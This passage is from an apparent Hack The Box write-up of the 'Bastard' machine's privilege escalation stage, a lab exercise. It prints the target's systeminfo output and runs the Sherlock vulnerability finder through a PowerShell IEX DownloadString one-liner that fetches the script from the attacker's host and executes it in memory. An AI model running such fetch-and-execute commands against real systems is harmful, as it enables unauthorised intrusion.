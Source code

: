 ## Privesc

- Here are the systeminfo

```dos
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          5/9/2022, 5:42:02 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.603 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.630 MB
Virtual Memory: In Use:    465 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

- We can run winpeas. We will use the bat version because the exe does not work. (not really helpful here)
- We can try sherlock that can be found [here](https://github.com/rasta-mouse/Sherlock) or here on kali if you have empire installed: `/usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1`
- `cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1 /home/kali/Documents/hackthebox/bastard` copying it to my working directory
- At the end of the script we need to add a line `Find-AllVulns` like this  
![Sherlock.ps1](../.res/2022-09-10-15-38-09.png)
- `echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.3/Sherlock.ps1') | powershell -noprofile -` We download our script and execute it. And it works we get a lot of info.
- We find 2 possible exploits
